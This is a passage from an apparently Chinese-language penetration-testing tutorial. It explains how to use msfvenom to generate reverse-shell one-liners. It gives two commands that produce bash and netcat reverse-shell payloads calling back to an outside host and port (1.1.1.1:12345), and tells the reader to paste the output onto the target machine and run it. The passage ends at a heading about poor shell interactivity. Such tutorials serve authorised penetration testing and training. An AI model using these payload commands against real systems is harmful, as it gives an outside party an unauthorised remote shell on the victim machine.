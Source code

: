 ![](../../.gitbook/assets/image%20%28455%29.png)

查看以上截图，我们可以看到 msfvenom 支持生成反弹 shell 一句话的类型非常丰富，这里几乎是应有尽有，大家可以依据渗透测试对象自行选择使用

2、生成命令行一句话

依照前面查找出的命令生成一句话 payload 路径，我们使用如下的命令生成反弹一句话，然后复制粘贴到靶机上运行即可

```text
## bash  反弹一句话生成

msfvenom -p cmd/unix/reverse_bash lhost=1.1.1.1 lport=12345 R

## 阉割版 nc 反弹一句话生成

msfvenom -p cmd/unix/reverse_netcat lhost=1.1.1.1 lport=12345 R
```

### 3、交互性差问题与解决方案
